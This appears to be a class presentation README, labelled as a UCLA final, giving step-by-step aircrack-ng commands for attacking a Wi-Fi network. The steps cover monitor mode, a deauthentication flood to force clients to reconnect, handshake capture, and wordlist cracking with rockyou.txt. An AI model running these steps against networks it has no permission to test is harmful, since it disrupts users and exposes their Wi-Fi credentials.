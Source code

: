 *the writer of this code is not resposible any further use* 
# UCLA Final Presentation: Aircrack-ng on Kali Linux
Verify airmon-ng has no issues:
<pre><code>sudo airmon-ng check</code></pre>

Determine name of wireless adapter:
<pre><code>sudo iwconfig</code></pre>

Enable monitor mode in the Wi-Fi card:
<pre><code>sudo airmon-ng start wlan0</code></pre>
  - Do not close terminal.

Capture the network packets:
<pre><code>sudo airodump-ng wlan0mon</code></pre>

Identify target network an note BSSID (MAC address) and channel
<pre><code>sudo airodump-ng --bssid (BSSID) -c (channel) -w (capture file output name) wlan0mon</code></pre>

While packets are capturing, open a seperate terminal and run the command:
<pre><code>sudo aireplay-ng --deauth 100 -a (BSSID) wlan0mon</code></pre>
  - Sends deauthentification packets to the target netowrk and forces clients to reconnect and sent their login credentials

Stop catpure with "ctrl + c"

Unzip rockyou.txt and create path to wordlist:

Locate rockyou.txt in Kali Linux:
<pre><code>cd /usr/share/wordlists</code></pre>
<pre><code>ls</code></pre>
It will present as: <pre><code>rockyou.txt.gz</code></pre>
Unzip rockyou.txt:
<pre><code>sudo gunzip rockyou.txt.gz</code></pre>

Nano into rockyou.txt and add designated password

Save document

Crack password:
<pre><code>sudo aircrack-ng -b (BSSID) -w (path to wordlist) (captire file name).cap</code></pre>
